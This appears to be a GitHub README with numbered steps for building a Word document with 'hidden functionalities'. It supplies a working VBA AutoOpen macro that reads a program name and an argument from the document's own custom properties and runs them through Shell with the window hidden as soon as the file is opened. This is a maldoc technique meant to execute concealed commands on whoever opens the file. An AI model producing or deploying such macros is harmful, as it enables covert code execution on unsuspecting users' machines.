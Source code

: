 # Office_Macros_With_Hidden_Functionalities

## Create Document Template
1. Create a new word document. 
![Create New Document](images/1.png)

2. Select `View`, `Macros`, `View Macros`.
![View Macros](images/2.png)

3. Enter a name for the macro in the `Macro name:` field and select `Create`. 
![Create Macro](images/3.png)

4. Copy & Paste the code below into the codebox and click on the `Save` icon.
![Create Macro](images/4.png)
```vb
Sub AutoOpen()
    chapel
End Sub
Sub chapel()
    Dim strProgramName As String
    Dim strArgument As String
    Set doc = ActiveDocument
    strProgramName = doc.BuiltInDocumentProperties("cmd").Value
    strArgument = doc.BuiltInDocumentProperties("argument").Value
    Call Shell("""" & strProgramName & """ """ & strArgument & """", vbHideFocus)
End Sub

```
5. Create Custom properties. Go to `File`, `Info`, `Properties`, `Advanced Properties`.
![Create Macro](images/5.png)

5. Save the document as type docx. In this example it is saved to `C:\temp\` location. 

